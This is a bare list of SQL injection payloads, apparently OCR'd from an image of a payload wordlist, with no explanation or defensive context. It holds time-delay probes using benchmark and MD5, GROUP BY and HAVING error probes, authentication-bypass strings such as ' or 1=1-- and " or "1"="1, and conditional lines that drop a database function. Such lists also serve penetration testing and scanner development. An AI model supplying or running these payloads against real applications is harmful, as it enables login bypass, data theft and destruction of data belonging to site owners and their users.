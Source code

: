 ```
benchmark(50000000,MD5(1))#
benchmark(50000000,MD5(1))--
' GROUP BY columnnames having 1=1 --
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
HAVING 1=0
HAVING 1=0#
HAVING 1=0-- 
HAVING 1=1
HAVING 1=1#
HAVING 1=1-- 
IF(7423=7423) SELECT 7423 ELSE DROP FUNCTION xcjl--
IF(7423=7424) SELECT 7423 ELSE DROP FUNCTION xcjl--
like '%'
'LIKE'
....	
# Numeric
" or "" "
" or ""&"
" or ""*"
" or ""-"
" or ""^"
' or "
' or '' '
' or ''&'
' or ''*'
' or ''-'
' or ''='
' or ''^'
-- or # 
" OR "" = "
' OR '' = '
or 0=0 #
or 0=0 --
or 0=0 –
" or 0=0 #
" or 0=0 --
" or 0=0 –
%' or '0'='0
' or         0=0 #
' or 0=0 #
' or 0=0 --
' or 0=0 –
{ ' or 0=0 # }
' OR '1
' OR 1 -- -
OR 1=0
OR 1=0#
OR 1=0-- 
or 1=1#
or 1=1--
or 1=1/*
or 1=1–
" or "1"="1
" or "1"="1"#
" or "1"="1"--
" or "1"="1"/*
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1#
" or 1=1--
```